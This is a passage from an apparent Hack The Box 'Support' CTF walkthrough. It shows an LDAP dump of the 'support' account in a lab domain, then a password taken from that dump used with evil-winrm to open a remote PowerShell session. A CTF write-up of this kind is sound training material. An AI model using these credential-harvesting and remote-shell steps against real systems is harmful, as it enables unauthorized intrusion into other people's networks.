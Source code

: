 ```bash
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 8
codePage: 0
countryCode: 0
badPasswordTime: 133039872491664284
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

I just give a try to the winrm using that string (**Ironside47pleasure40Watchful**) as the password and it worked:


```bash
evil-winrm -i 10.129.227.255 -u support -p Ironside47pleasure40Watchful

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 

```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/5_0_user.png" width="90%"/>
</p>
